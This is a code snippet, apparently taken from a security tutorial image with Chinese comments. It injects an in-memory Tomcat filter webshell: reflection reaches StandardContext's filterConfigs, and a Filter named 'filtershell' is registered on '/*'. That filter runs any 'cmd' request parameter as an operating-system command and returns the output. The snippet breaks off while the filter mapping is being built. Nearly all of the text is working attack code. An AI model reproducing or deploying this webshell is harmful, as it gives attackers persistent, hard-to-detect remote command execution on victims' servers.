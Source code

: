 ```plain
    // 获取ApplicationContextFacade的context属性，即ApplicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    // 获取ApplicationContext的context属性，即StandardContext
    Field standContextField = applicationContext.getClass().getDeclaredField("context");
    standContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standContextField.get(applicationContext);

    // 获取StandardContext的filterConfigs属性，即filterConfigs
    Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsField.setAccessible(true);
    Map filterConfigs = (Map) filterConfigsField.get(standardContext);

    // 创建my filter 需要先判断是否已经存在同名的filter
    String myFiltername = "filtershell";
    if(filterConfigs.get(myFiltername) == null) {
        Filter myFilter = new Filter() {

            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                Filter.super.init(filterConfig);
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                // shell
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if(req.getParameter("cmd") != null) {
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd", "/C", req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes, 0, len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };

        // 创建filterDef对象
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(myFilter);
        filterDef.setFilterName(myFiltername);
        filterDef.setFilterClass(myFilter.getClass().getName());

        // 将filterDef添加至filterDefs
        standardContext.addFilterDef(filterDef);

        // 创建filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(myFiltername);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
```
